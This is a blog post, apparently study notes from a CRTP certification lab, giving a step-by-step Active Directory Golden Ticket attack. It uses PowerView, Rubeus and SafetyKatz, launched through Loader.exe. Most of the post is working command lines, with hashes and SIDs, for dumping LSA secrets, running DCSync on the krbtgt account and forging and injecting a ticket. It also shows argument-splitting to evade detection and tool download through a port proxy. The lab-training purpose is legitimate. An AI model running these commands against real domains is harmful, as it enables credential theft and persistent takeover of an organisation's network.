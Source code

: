```yaml
---
title: Active Directory (AD) | Exploiting Domain Admin (Golden Ticket Attack)
date: 2024-07-02 00:00:00 +0800
categories: [Cert, CRTP]
tags: [Cert,Active Directory]     ## TAG names should always be lowercase
render_with_liquid: false
description: Designed to provide a comprehensive guide to Active Directory (AD) attack techniques
---
```


## **Step 1: Identifying Machines with Domain Admin Sessions**
To begin our exploitation of domain admin privileges, we first need to identify machines where domain admin accounts are actively logged in. This step is crucial because it allows us to target these machines for further actions, such as stealing tokens or credentials. For this task, we use PowerView, a powerful PowerShell tool that helps in enumerating Active Directory environments. By running the Find-DomainUserLocation command, we can query the Domain Controller to find out which computers have active domain admin sessions. In our example, this command reveals that there is a domain admin session on the dcorp-mgmt server, making it a prime target for our next steps.

```bash
Find-DomainUserLocation
```
![Result](/img/crtp/result6.png){: width="972" height="589" }
_There is a domain admin session on dcorp-mgmt server_

## **Step 2: Extracting Domain Controller Hashes**
In this step, we aim to extract hashes from the domain controller and create a Golden Ticket using Rubeus. A Golden Ticket is a forged Kerberos Ticket Granting Ticket (TGT) that allows an attacker to impersonate any user within the domain, effectively granting near-unlimited access to network resources.

### Start a Process with Domain Admin Privileges
To start, we use an elevated command prompt (Run as administrator) and utilize ArgSplit.bat to encode the asktgt command. This command is part of the Kerberos authentication process, where it requests a TGT for the domain admin account. The TGT is crucial because it allows us to request service tickets for accessing various network resources.

```bash
C:\Windows\system32>C:\AD\Tools\ArgSplit.bat
set "z=t"
set "y=g"
set "x=t"
set "w=k"
set "v=s"
set "u=a"
set "Pwn=%u%%v%%w%%x%%y%%z%"
```

We verify the encoded string to ensure it's correct:
```bash
C:\Windows\system32>echo %Pwn%
asktgt
```

Next, we run Rubeus with the asktgt command using Loader.exe. This step initiates the process of obtaining a TGT for the domain admin account.
```bash
C:\Windows\System32>C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

### Copy Loader.exe to the Domain Controller
After acquiring the TGT, we need to copy Loader.exe to the domain controller (dcorp-dc). We use the xcopy command to transfer the file to ensure it's available for our use on the target system.
```bash
C:\Windows\system32>echo F | xcopy C:\AD\Tools\Loader.exe \\dcorp-dc\C$\Users\Public\Loader.exe /Y
```

### Use WinRS to Access the Domain Controller
With Loader.exe on the domain controller, we open a remote session to the domain controller using WinRS. This tool allows us to execute commands remotely over the Windows Remote Management (WinRM) service.
```bash
winrs -r:dcorp-dc cmd
```

### Set Up Port Forwarding to download the SafetyKatz
On the domain controller, we set up port forwarding with the netsh interface portproxy command. This step facilitates the download of necessary tools, such as SafetyKatz, by redirecting network traffic to the appropriate address and port.
```bash
C:\Users\svcadmin>netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.x
```

### Encode and Execute lsadump::lsa 
Back on the student VM, we use ArgSplit.bat to encode the lsadump::lsa command. This command dumps Local Security Authority (LSA) secrets from memory, including password hashes.
```bash
C:\Windows\system32>C:\AD\Tools\ArgSplit.bat
[!] Argument Limit: 180 characters
[+] Enter a string: lsadump::lsa
set "z=h"
set "y=c"
```

We run the generated commands in the WinRS session on the domain controller to execute SafetyKatz and perform the LSA dump:
```bash
set "Pwn=%o%%p%%q%%r%%s%%t%%u%%v%%w%%x%%y%%z%"
C:\Users\svcadmin>C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe -args "%Pwn% /patch" "exit"
```

The output of lsadump::lsa reveals the NTLM hashes and other credentials stored in the LSA:
```bash
mimikatz # lsadump::lsa /patch
```

### Perform a DCSync Attack
To obtain the NTLM hash and AES keys of the krbtgt account, we perform a DCSync attack. This attack simulates the behavior of a domain controller and requests replication of credentials, allowing us to dump password hashes.
```bash
C:\Windows\system32>echo %Pwn%
lsadump::dcsync 

C:\Windows\system32>C:\AD\Tools\Loader.exe -path C:\AD\Tools\SafetyKatz.exe -args "%Pwn% /user:dcorp\krbtgt" "exit"
```

## **Step 3: Generate and Inject a Golden Tickets**


With the krbtgt hash in hand, we generate a Golden Ticket. A Golden Ticket is a powerful tool in an attacker's arsenal, as it allows for the creation of a forged TGT that can impersonate any user within the domain, granting near-unlimited access. We use ArgSplit.bat to encode the golden command:
```bash
C:\AD\Tools>echo %Pwn%
golden
```

Using Rubeus, we create the Golden Ticket with the necessary parameters, including the krbtgt hash and domain information:
```bash
C:\AD\Tools>C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /aes256:154CB6624B1D859F7080A6615ADC488F09F92843879B3D914CBCB5A8C3CDA848 /sid:S-1-5-21-719815819-3726368948 /ldap /user:Administrator /printcmd
```

Finally, we inject the Golden Ticket into the current process to gain persistent domain admin access. This is confirmed by checking the username and computer name in the remote session, ensuring we have full administrative control over the domain controller:
```bash
C:\AD\Tools>C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /aes256:154CB6624B1D859F7080A6615ADC488F09F92843879B3D914CBCB5A8C3CDA848 /user:Administrator /id:500 /pgid:513 /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948 /pwdlastset:"11/11/2022 6:34:22 AM" /minpassage:1 /logoncount:35 /netbios:dcorp /groups:544,512,520,513 /dc:DCORP-DC.dollarcorp.moneycorp.local /uac:NORMAL_ACCOUNT,DONT_EXPIRE_PASSWORD /ptt
```

Confirm the Golden Ticket injection:
```bash
[+] Ticket successfully imported!
C:\AD\Tools>winrs -r:dcorp-dc cmd
Microsoft Windows [Version 10.0.20348.2227]
(c) Microsoft Corporation. All rights reserved.
C:\Users\Administrator>set username
USERNAME=Administrator
C:\Users\Administrator>set computername
COMPUTERNAME=DCORP-DC
```

